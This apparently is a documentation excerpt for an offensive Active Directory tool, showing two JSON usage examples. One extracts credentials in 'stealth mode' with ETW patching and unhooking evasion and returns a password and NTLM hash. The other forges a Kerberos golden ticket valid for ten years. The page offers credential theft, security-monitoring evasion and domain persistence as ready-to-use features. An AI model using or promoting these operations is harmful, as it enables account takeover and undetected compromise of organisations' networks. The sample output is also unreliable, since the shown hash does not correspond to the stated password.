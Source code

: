 ### Example 1: Enhanced Credential Extraction
```bash
# Extract credentials with enhanced features
{
  "action": "extract_credentials",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "stealth_mode": true
}

# Result
{
  "success": true,
  "result": {
    "credentials": [
      {
        "username": "user@domain.com",
        "password": "password123",
        "ntlm_hash": "aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99"
      }
    ],
    "stealth_mode": true,
    "evasion_techniques": ["unhook", "patch_etw"]
  }
}
```

### Example 2: Advanced Ticket Manipulation
```bash
# Create golden ticket with enhanced features
{
  "action": "golden_ticket",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "target_dc": "dc.domain.com",
  "ticket_format": "kirbi"
}

# Result
{
  "success": true,
  "result": {
    "ticket": "golden_ticket.kirbi",
    "target_user": "user@domain.com",
    "target_domain": "domain.com",
    "validity": "10 years",
    "format": "kirbi"
  }
}
```
